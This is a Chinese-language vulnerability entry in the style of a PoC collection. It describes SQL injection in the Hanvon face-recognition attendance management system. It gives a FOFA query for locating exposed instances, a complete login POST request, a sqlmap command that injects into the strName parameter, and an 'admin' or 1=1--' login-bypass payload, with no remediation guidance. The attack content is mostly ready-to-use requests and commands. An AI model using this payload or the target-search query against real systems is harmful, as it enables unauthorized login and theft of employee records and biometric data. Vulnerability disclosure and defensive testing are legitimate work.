 # 汉王人脸考勤管理系统-Check-SQL注入漏洞

## 漏洞描述

汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## 漏洞影响

> [!NOTE]
>
> 汉王人脸考勤管理系统

## FOFA

> [!NOTE]
>
> title=""汉王人脸考勤管理系统""

## 漏洞复现

登录界面如下

![1](汉王人脸考勤管理系统-Check-SQL注入漏洞.assets/1627363124786568.jpg)

请求包如下

```shell
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close

strName=admin&strPwd=123456
```

其中strName参数存在注入

```shell
sqlmap -r postwang.txt -p strName  --current-user
```

![](汉王人脸考勤管理系统-Check-SQL注入漏洞.assets/1627363125239212.jpg)

```
user: admin' or 1=1--
pass: admin
```

万能密码绕过登录

![](汉王人脸考勤管理系统-Check-SQL注入漏洞.assets/1627363125529004.jpg)

## Goby & POC

![](汉王人脸考勤管理系统-Check-SQL注入漏洞.assets/16273631256324952.jpg)
